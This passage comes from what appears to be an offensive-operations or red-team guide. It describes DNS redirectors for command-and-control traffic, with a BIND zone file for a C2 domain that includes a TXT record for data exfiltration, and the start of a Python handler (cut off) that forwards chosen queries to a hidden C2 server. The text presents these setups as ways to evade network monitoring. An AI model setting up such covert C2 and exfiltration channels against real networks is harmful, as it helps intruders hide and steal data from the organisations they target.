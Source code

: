 ### DNS Redirectors

DNS redirectors handle domain name resolution queries, making them ideal for operations utilizing DNS-based C2 channels. These redirectors are particularly valuable in restricted environments where HTTP/HTTPS traffic is heavily monitored but DNS queries are often allowed with minimal inspection.

#### BIND Implementation

BIND (Berkeley Internet Name Domain) is the most widely used DNS server software and provides a robust platform for DNS redirectors:

```bash
# named.conf.local
zone "c2domain.com" {
    type master;
    file "/etc/bind/zones/c2domain.com.zone";
};

# /etc/bind/zones/c2domain.com.zone
$TTL 3600
@       IN      SOA     c2domain.com. admin.c2domain.com. (
                        202503181 ; Serial
                        3600      ; Refresh
                        1800      ; Retry
                        604800    ; Expire
                        86400 )   ; Minimum TTL

@       IN      NS      ns1.c2domain.com.
@       IN      NS      ns2.c2domain.com.
@       IN      A       203.0.113.10  ; Redirector IP
ns1     IN      A       203.0.113.10
ns2     IN      A       203.0.113.10

# Add DNS TXT records for data exfiltration
_data1  IN      TXT     "redirect-to-actual-c2-server-ip"
```

This BIND configuration establishes the redirector as the authoritative DNS server for the C2 domain. The zone file defines various record types:

- **SOA (Start of Authority)**: Defines administrative information about the DNS zone
- **NS (Name Server)**: Specifies the authoritative name servers for the domain
- **A (Address)**: Maps hostnames to IP addresses
- **TXT (Text)**: Provides text-based data often used for DNS tunneling or data exfiltration

DNS redirectors work effectively because they can:
1. Handle legitimate DNS queries for domain resolution
2. Secretly forward special queries to your actual C2 server
3. Facilitate covert data exfiltration through DNS TXT records
4. Operate on UDP port 53, which is rarely blocked in networks

For more advanced DNS tunneling capabilities, you can implement a custom handler:

```python
#!/usr/bin/env python3
import socket
import dnslib
import threading

def dns_handler(data, client_addr, server_sock):
    request = dnslib.DNSRecord.parse(data)
    domain = str(request.q.qname)
    
    # Log the incoming request
    print(f"Query from {client_addr[0]}: {domain}")
    
    # Forward specific subdomains to the actual C2 server
```